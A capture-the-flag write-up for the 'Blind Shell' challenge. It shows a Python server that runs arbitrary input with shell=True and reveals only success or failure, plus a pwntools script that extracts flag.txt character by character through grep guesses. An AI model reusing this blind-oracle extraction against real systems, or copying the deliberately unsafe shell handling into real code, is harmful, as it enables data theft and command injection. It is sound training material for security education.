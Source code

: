 # Blind Shell

> Points: 125

> Category: Misc/Pwn

## Description

Normally once you have a shell, you win. Here, you already start with a shell - can you find your way to the flag?

## Attachments

[Download Python File](https://imaginary.ml/r/CABD-blind.py)

`nc oreos.ctfchallenge.ga 12345`

```py
#!/usr/bin/env python3.8

from subprocess import run

if __name__ == "__main__":
    while True:
        cmd = input(">>> ")
        proc = run([cmd], capture_output=True, shell=True, timeout=60)
        if proc.returncode == 0:
            print("SUCCESS")
        else:
            print("FAILURE")
```

## Solution

We can see that the program tries to run whatever command we put in, and tells us whether it successfully executed or not.

Let's first check if there's a `flag.txt` file in our current directory.

```sh
>>> cat flag.txt
SUCCESS
```

Cool, there is. Now we need to somehow get the flag. 

We can start by initializing a string (let's call it `ans`) to **ictf{** (the start of the flag) and use the `grep` command to continually guess and check the next character. We will know whether or not our guess is correct depending on if it prints out `SUCCESS` or `FAILURE`. If it is successful, append the character to the `ans` string and repeat this until we get the entire flag.

Below is a python script that automates the process described above

```py
from pwn import *
import string

r = remote("oreos.ctfchallenge.ga", 12345)
chars = string.printable
ans = "ictf{"
r.recvuntil(">>> ")

while ans[-1] != "}":
    for i in chars:
        r.sendline('grep -F "{}" "flag.txt"'.format((ans+i)))
        # the -F option in grep searches for the string without interpreting it as regex
        response = r.recvuntil(">>> ").decode()
        if "SUCCESS" in response:
            # then we know that character is in the flag
            # and we don't need to check the rest (break)
            ans += i
            break
    print(ans)
```

### Flag

> ictf{g01n8*1n_bl!nd?n0t*@\_pr0bl3m!}
